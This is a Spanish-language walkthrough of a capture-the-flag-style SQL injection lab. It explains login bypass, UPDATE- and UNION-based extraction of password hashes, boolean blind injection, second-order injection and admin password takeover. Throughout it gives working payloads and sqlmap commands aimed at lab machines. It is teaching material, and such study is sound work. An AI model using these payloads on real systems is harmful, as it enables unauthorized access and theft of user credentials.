

Introducción a las SQL injections
En este laboratorio veremos una introducción a los ataques de SQL injections, así como algunos ejemplos prácticos de como podemos aplicarlas.
LAB LINK: Introducción a las SQL injections
Difficulty: Fácil
Introducción a SQL injection
Los ataques de inyección SQL es una técnica donde los atacantes pueden ejecutar peticiones maliciosas para poder ganar acceso en un panel de inicio de sesión o para obtener información de una base de dato sin tener acceso a la misma.
$query = "SELECT * FROM users WHERE username='" + $_POST["user"] + "' AND password= '" + $_POST["password"]$ + '";"Vemos que estamos haciendo una consulta donde estamos seleccionando todos los usuarios de la tabla users para obtener su usuario y su password.
Si el atacante modifica dicha consulta de la manera que si cambia la parte de $_POST["user"] por 'OR 1=1 -- encontrará un exploit donde se ganará acceso ya que en SQL 1=1 es algo que siempre va a ser verdad y -- (doble guion) comenta todo lo que lo precede, es decir, el campo password se comenta y no se tiene en cuenta.
SELECT * FROM users WHERE username='' OR 1=1 -- AND password=''Como vemos, el campo password se ha puesto de un color diferente debido a que está comentado.
Lo que hace la consulta anterior es devolver todos los usuarios de la tabla users donde su nombre es una cadena vacía (no devolvería ningún resultado) o verdad, algo que siempre se va a cumplir.
SQL Injection 1: Input Box Non-String
Cuando hacemos un logueo, la aplicación lleva a cabo la siguiente consulta:
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM users
WHERE profileID = 10 AND password 'ce44iqns...'Como vemos en este ejemplo de consulta, vemos que el campo profileID acepta valores / números enteros profileID =10, si no hay un tratamiento de esta condición podemos evadir la seguridad haciendo uso de una condición lógica como 1 or 1=1 --.
SQL Injection 2: Input Box String
Est desafío presenta la misma consulta a la hora de realizar un logueo.
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM users
WHERE profileID ='10' AND password 'ce44iqns...'Con la diferencia que ahora el campo profileID='10' no acepta valores numéricos, si no que es una cadena de caracteres.
Para poder evadir la seguridad en este caso, también podemos hacer uso de una condición lógica pero introduciendo cadenas en vez de valores numéricos 1' or '1'='1' --.
SQL Injection 3 and 4: URL and POST Injection
Seguimos teniendo la misma consulta, pero ahora no podemos evadir la seguridad de la base de datos inyectando una consulta maliciosa a la aplicación vía login.
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM users
WHERE profileID ='10' AND password 'ce44iqns...'Ya que se ha implementado un control del lado del cliente (client-side):
functionvalidateform() {
var profileID = document.inputForm.profileID.value;
var password = document.inputForm.password.value;
if (/^[a-zA-Z0-9]*\$/.test(profileID) == false ||
/^[a-zA-Z0-9]*\$/.test(password) == false) {
alert("The input fields cannot contain special characters");
return false;
}
if (profileID == null || password == null) {
alert("The input fields cannot be empty.");
return false;
}
}Podemos leer este código y vemos que los campo profileID y password aceptan caracteres desde [a-Z] hasta [0-9].
Es decir, el control desde el cliente solo mejora la experiencia de usuario pero cuando hablamos de seguridad vemos que el usuario sigue teniendo el control sobre los datos que acepta el cliente.
Mediante el uso de la herramienta BurpSuite podemos evadir la validación que se realiza en el lado del cliente.
SQL Injection 3: URL Injection
Las URL injection se basan en peticiones GET cuando se envía la petición de login.

El login y la validación del cliente se puede evadir desde la URL en la barra de navegación de esta manera: http://ip_maquina:5000/sesqli3/login?profileID=1'or1=1--&password=a.
SQL Injection 4: POST Injection
Cuando enviamos la petición de login, se hace uso del método POST del protocolo http.
Podemos o eliminar/desactivar el código JavaScript de validación o mediante BurpSuite interceptar la petición y modificarla.

SQL Injection 5: UPDATE Statement
Si realizamos una inyección SQL cuando se realizar una consulta UPDATE el daño será más grave debido a que nos permitiría realizar cambios en la base de datos.
En la aplicación de gestión de empleados, hay una página de edición de perfil, donde los empleados actualizan su perfil.
Si vemos el código fuente de la página web, podemos identificar las columnas de la base de dato mediante su nombre.
Ahora enumeraremos la base de datos vía UPDATE para obtener información de la base de datos.

Para confirmar que estamos ante una vulnerabilidad podemos realizar una consulta donde inyectamos una consulta y vemos si se ha producido o no.
Si el nombre de las columnas que aparecen no es el correcto, al realizar la inyección no se va a producir ningún cambio.
Si los campos se actualizan podemos intentar identificar que base de datos se está usando, lo podemos hacer enviando un payload malicioso. Esto lo podemos para bases de datos MySQL, MSSQL, Oracle y SQLite:
# MySQL and MSSQL*
',nickName=@@version,email='
# For Oracle*
',nickName=(SELECT banner FROM v$version),email='
# For SQLite*
',nickName=sqlite_version(),email='Mediante esto vamos a obtener la versión de la misma.
Una cosa importante es saber con que base de datos estamos tratando, esto nos facilita la compresión de como construir consultas maliciosas.
Podemos enumerar la base de datos extrayendo todas las tablas de la misma.
Vamos a realizar una subconsulta donde haremos uso de la función group_concat() que se utiliza para volcar todas las tablas simultáneamente, todo esto lo colocaremos en el campo nickName de la consulta:
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='Como resultado, tenemos que obtenemos el nombre de la única tabla que existe en la base de datos:

Ahora podemos obtener todos las columnas que componen a dicha tabla:
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name = 'usertable'),email='Esta consulta nos devuelve todos las columnas de la tabla usertable:

Conociendo el nombre de las columnas, podemos obtener la información que queremos de la base de datos.
Por ejemplo, si queremos obtener el profileID ,name y password de los usuarios podemos ejecutar la siguiente consulta:
',nickname = (SELECT group_concat(profileID || "," || name || "," ||password || ":") FROM usertable), email='Resultado de la consulta:

Como vemos las contraseñas están en hasheadas, con la herramienta hash-identifier podemos saber que hash tienen y poder desencriptarlas.
Finalmente podemos actualizar la contraseña del admin a la que queramos mediante:
', password='<contraseña_hasheada>' WHERE name='Admin'-- -</div>
Vulnerable Startup
Vamos a ver ahora un ejemplo práctico de cada ataque de inyección SQL explicados anteriormente:
Broken Authentication
Se realiza mediante la modificación de la petición con BurpSuite y el uso de la condición lógica 1' or 1=1-- , esto hace que ganemos acceso y encontremos la flag.
Broken Authentication 2
Cuando nos loguemos, vemos que tenemos un rol. Además los datos de la consulta se almacenan en las cookies de la sesión del navegador en el campo Storage → Value (podemos acceder a ellas mediante F12 o inspeccionando la pagina web):

Estas cookies están encriptadas, así que podemos usar alguna herramienta externa para desencriptarlas.

Después de haber accedido mediante la condición lógica 1' or 1=1-- - como username, se puede ver la cookie desencriptada abajo.
Podemos dumpear las contraseñas mediante la UNION basada en SQL injection, solo necesitamos 2 cosas:
- El número de columnas en la consulta inyectada tiene que ser igual a la legítima.
- Los tipos de datos deben de corresponder con los de la tabla legitima.
Esto lo podemos saber si mandamos una consulta de la manera:
SELECT id, username FROM users WHERE username='" + username + "' AND password= '" + password + "'Si no conocemos el número de columnas, primero tendremos que enumerar el número de columnas inyectando consultas de la manera:
1' UNION SELECT NULL -- -Poniendo tantos NULL como tablas creamos que debe de haber.
Usando 'UNION SELECT 1,2-- - como username, coincidimos con el número de columnas de la consulta SQL original.
Y donde antes ponía ‘Logged in as admin’ ahora pone ‘Logged in as 2’.

Mediante el uso de PayloadsAllTheThings la enumeración de tablas y columnas de una base de datos se hace más ameno debido a que ya no dan los payloads a usar para obtener dicha información.
Como sabemos que el nombre de la tabla es users y tenemos la columna password, podemos hacer:
' UNION SELECT 1, password FROM users-- -Si hacemos uso de group_concat() podemos obtener todas las passwords a la vez.
' UNION SELECT 1, group_concat(password) FROM users-- -
Si ahora desencriptamos la cookies de sesión, tendremos todas las contraseñas.
Broken Authentication 3 (Blind Injection)
Hay bases de datos que tienen protección en contra del método anterior (obtner las contraseñas a partir de la desencriptación de las cookies de sesión), para poder evitar esto vamos a hacer uso de Boolean-based blind SQL injection (inyección SQL booleana a ciegas) para obtener las contraseñas.
La idea es mandar una consulta SQL preguntando por True o False (por eso lo de booleana) por cada carácter de la contraseña, observamos la respuesta de la petición para ver si la base de datos devuelve verdadero o falso.
Si devuelve falso, nos mandará el mensaje de “usuario o contraseña incorrecto”.
Para poder mandar peticiones de verdadero/falso preguntando a la base de datos si el carácter es verdadero o falso, vamos a necesitar saber que carácter se está comparando para ir pasando al siguiente cada vez que se acierte el carácter en esa posición.
Para conseguir esto, vamos a hacer uso de la función:
SUBSTR(string, <start>, <length>)Donde string será la contraseña del admin, start será el inicio de la cadena y length será la longitud.
Un ejemplo:
-- Changing start --
SUBSTR("THM{Blind}", 1,1) = T
SUBSTR("THM{Blind}", 2,1) = H
SUBSTR("THM{Blind}", 3,1) = M
-- Changing length --
SUBSTR("THM{Blind}", 1,3) = THM
A continuación vamos a introducir la contraseña del admin como una cadena en la función SUBSTR.
(SELECT password FROM users LIMIT 0,1)Lo que hace LIMIT es limitar la cantidad de datos devueltos por SELECT .
Quedando de la manera:
SUBSTR((SELECT password FROM users LIMIT 0,1)1,1)Ahora vamos a necesitar realizar la comparación entre caracteres para ver si es o no, pero como las contraseñas pueden tener mayúsculas y minúsculas vamos a traducirlas a hexadecimal.
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'Siendo ‘t’ (0x74) y ‘T’(0x54).
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)Ahora hacemos uso de CAST para convertir la representación hexadecimal a un tipo de datos de texto en SQLite, además le añadimos los dos guiones para comentar el campo de la contraseña:
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -Siendo esta la petición que finalmente hará la base de datos:
SELECT id, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)Si la aplicación nos devuelve un redirección 302, significa que hemos encontrado el primer carácter de la contraseña.
Esto es muy tedioso ya que deberíamos de ir carácter a carácter, por tanto, vamos a hacer uso de un script que lo hace automáticamente.
También podemos hacer uso de la herramienta externa sqlmap para llevar a cabo estos ataques con los parámetros:
sqlmap -u http://MACHINE_IP:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dumpy
Vulnerable Notes
Nos hemos topado con una base de datos que tiene todos los fallos anteriores fixed, por tanto, tendremos que buscar una nueva manera de poder acceder a la base de datos.

Aquí entran las notes que son una función donde se pueden añadir nuevas notas. Estas no son directamente vulnerables ya que se insertan notas de forma segura ya que usa consultas paramétricas. Con este tipo de consultas, la declaración se especifica con placeholders que son “?”.
Luego el usuario introduce cada parámetro en la consulta.
INSERT INTO notes (username, title, note) VALUES (?,?,?)Estas consultas hace que la base de datos pueda diferenciar entre código y datos, independientemente la entrada de los datos.
Aunque se hagan uso de consultas parametrizadas, el servidor seguirá aceptando “datos maliciosos” y las pondrá en la base de datos.
Sin embargo, la consulta que obtiene todas la notas que pertenece a un usuario no hace uso de consultas parametrizadas, por tanto, se puede concatenar el nombre de usuario directamente en la consulta, haciéndola vulnerable a SQL injection.
SELECT title, note FROM notes WHERE name = '" + nombre de usuario + "'Esto significa que si añadimos un usuario malicioso, todo estará normal hasta que el usuario navegue a la página de las notas.

Podemos crear un usuario malicioso mediante ' UNION SELECT 1,2' , donde la aplicación realizará la siguiente consulta:
SELECT title, note FROM notes WHERE name='" UNION SELECT 1,2"'Con este conocimiento, podemos explotar la base de datos para obtener todas las tablas de la misma y buscar información.
Lo podemos hacer como el ejemplo anterior, donde nos logueamos con un usuario malicioso, de la manera:
'UNION SELECT 1,group_concat(tlb_name) FROM sqllite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%''Para automatizar este tipo de ataque podemos hacer uso de la herramienta sqlmap , pero un ataque estándar fallará.
La inyección ocurre en el registro del usuario, pero la función vulnerable se encuentra en la página de notas, para que este ataque funcione tenemos que tener en cuenta:
- Registrar un nuevo usuario malicioso.
- Iniciar sesión con el usuario malicioso.
- Ir a la página de notas para poder realizar la inyección.
Código de sqlmap para explotar la vulnerabilidad:
sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd"Change Password
Seguimos avanzando pero ahora nos enfrentamos a una base de datos la cual tiene la vulnerabilidad anterior (Vulnerable Notes) fixed, una manera de seguir intentando ganar acceso a la base de datos es comprobar si los usuarios pueden cambiar su contraseña, en alguna página de perfil de la base de datos.
Vamos a hacer uso de esta vulnerabilidad para cambiar la contraseña de algún usuario que sea admin y así ganar acceso.
La función de cambiar la contraseña es vulnerable a las SQL injections porque las consultas UPDATE concatenan el username directamente en la consulta SQL.
El diseñador de la base de datos ha puesto un menú de perfil que contiene un placeholder para poner la contraseña, ya que este input viene directamente del usuario.
Podemos ganar acceso haciendo admin' -- - ya que el diseñador al pensar que el usuario es correcto y seguro lo concatena en la consulta SQL, en vez de usar un placeholder como hace con la password:
UPDATE users SET password = ? WHERE username = '" + username + "'Después de iniciar sesión como un usuario malicioso, podemos actualizar la contraseña del usuario para poder ‘activar’ la vulnerabilidad.
Cuando cambiamos la contraseña, la aplicación ejecuta dos consultas:
SELECT username, password FROM users WHERE id = ?Si la comprobación es correcta, procede a cambiar la contraseña:
UPDATE users SET password = ? WHERE username = 'admin' -- -'Esto se resume que en vez de actualizar la contraseña para admin' -- - , la aplicación actualiza la contraseña para el usuario legítimo admin. Ahora podemos acceder a la base de datos con el usuario admin.
Book Title 1
Podemos toparnos con una aplicación que tiene un buscador, en este caso de libros.

Cada vez que se introduce el titulo de un libro (title) en dicho buscador se realiza una petición GET, siendo la consulta que se manda:
SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '"+ title + "%')Para explotar esta vulnerabilidad lo único que tenemos que hacer es abusar de la cláusula LIKE , por ejemplo, inyectando ') or 1=1-- - :

Book Title 2
Ahora la aplicación realiza una consulta al principio del proceso, luego se utiliza el resultado de esta para llevar acabo otra consulta que también contiene vulnerabilidades. Ambas consultas son vulnerables, la primera se puede explotar mediante Boolean-based blind injection.
Sin embargo, como la segunda consulta hace uso del resultado de la primera y como hemos comentado anteriormente también contiene vulnerabilidades trabajaremos con esta. Podemos explotar dicha vulnerabilidad haciendo uso de UNION-based injection en vez de hacer uso de Boolean-based blind injection, ya que podemos hacer la explotación más sencilla y menos ruidosa.

Vemos que tenemos el mismo panel de consulta de libros, es decir, se realiza una petición GET para poder recuperar el libro que le estamos pidiendo.
Como hemos dicho arriba, la aplicación al pedirle el nombre del libro realiza dos consultas, la primera consulta obtiene el ID del libro y la segunda obtiene toda la información del libro a partir de su ID (la primera consulta), aquí vemos las dos consultas:
bid = db.sql_query(f"SELECT id FROM books WHERE title like '{title}%'", one=True)
if bid:
query = f"SELECT * FROM books WHERE id = '{bid['id']}'"
Para llevar a cabo esta vulnerabilidad:
- Limitamos el resultado a 0 filas, esto se hace sin dar ningún input o el input que damos no existe.
- Usamos la cláusula
UNIONpara controlar lo que devuelve la primera consulta (dato que se usará en la segunda consulta, el ID vamos). - Podemos insertar este código
' UNION SELECT ' STRINGpara ver como se ejecutan ambas consultas.

Vemos el resultado de lo que devuelve cada consulta, en la primera vemos 'STRING%', que es usado en la segunda consulta en la cláusula WHERE.
Por tanto, en vez de inyectar el código ' UNION SELECT 'STRING , podemos inyectar ' UNION SELECT '1' -- - y esto nos devolverá toda la información sobre el libro cuyo ID es 1.

Si no limitamos el resultado a 0 filas, no tendremos el output de la cláusula UNION, sino que obtendremos el resultado de la cláusula LIKE:
test' UNION SELECT '1'-- -Ponemos el campo “test” y vemos lo que nos devuelven las dos consultas que realiza la aplicación:

Vemos que en la segunda consulta, la cláusula WHERE contiene un ID, anteriormente no sucedía eso, si no que nos devolvía la información del libro en cuestión.
Gracias a esto, ahora tenemos control total de la segunda consulta, donde podemos usar UNION-based SQL injection para extraer toda la información de la base de datos.
Nuestro objetivo en cuestión es que la segunda consulta sea algo similar a:
SELECT * FROM book WHERE id = ' ' UNION SELECT 1,2,3,4-- -Por tanto, si nos fijamos en la imagen, vemos que la cláusula LIKE al hacer uso de test' UNION SELECT '1'-- - nos devuelve un ID, por tanto el código a inyectar quedaría:
SELECT * FROM book WHERE id = ' ' UNION SELECT '-1' UNION SELECT 1,2,3,4- -Tendríamos como resultado:

Ahora podemos hacer:
' union select '-1''union select 1,group_concat(username),group_concat(password),2 from users-- -